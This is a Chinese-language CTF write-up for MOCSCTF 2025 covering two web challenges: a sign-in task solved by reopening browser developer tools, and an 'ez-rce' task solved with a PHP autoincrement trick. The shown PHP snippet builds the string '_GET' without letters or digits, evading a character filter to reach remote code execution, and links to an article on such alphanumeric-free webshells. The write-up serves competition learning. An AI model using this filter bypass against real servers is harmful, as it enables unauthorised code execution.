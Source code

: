 ```yaml
---
title: "Mocsctf2025 Wp"
subtitle: ""
date: 2025-07-17T19:20:00+08:00
lastmod: 2025-07-17T19:20:00+08:00
draft: false
author: ""
authorLink: ""
license: ""

tags: ["crypto"]
categories: ["CTF"]

featuredImage: ""
featuredImagePreview: ""

summary: ""

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
  auto: true

mapbox:
share:
  enable: true
comment:
  enable: true
---
```


## 前言

澳门的一个比赛，奖品比较好，就冲了xd，复盘一下，后面会补题

## web

### shuke-beita

这个真的是签到了xd，f12进去可以看见一行`(document.body.innerHTML = "请关闭开发者工具以继续使用本网站")`，我们比较叛逆，直接打开，然后运行游戏抓个包，f12里面就看见flag了，无敌了

### ez-rce

不算特别难，抓包得到`<!-- /s3cret/rce.php -->`，进去尝试rce即可，过滤了很多东西，打自增绕过，详细分析看[这个](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

字符更少的版本
```
$_=[].'_'; //空数组拼接一个字符，会将空数组变成字符串Array
$__=$_[1];//$__是r
$_=$_[0];//$_这时是A
$_++;//$_这时是B，每++一次就是下一个字母
$_++;//C
$_0=$_;//把c给$_0
$_++;//D
$_++;//E
$_++;//F
$_++;//G
$_=$_0.++$_.$__;//$_=CHr
$_='_'.$_(71).$_(69).$_(84);//$_='_'.CHR(71).CHR(69).CHR(84) -> $_=_GET
```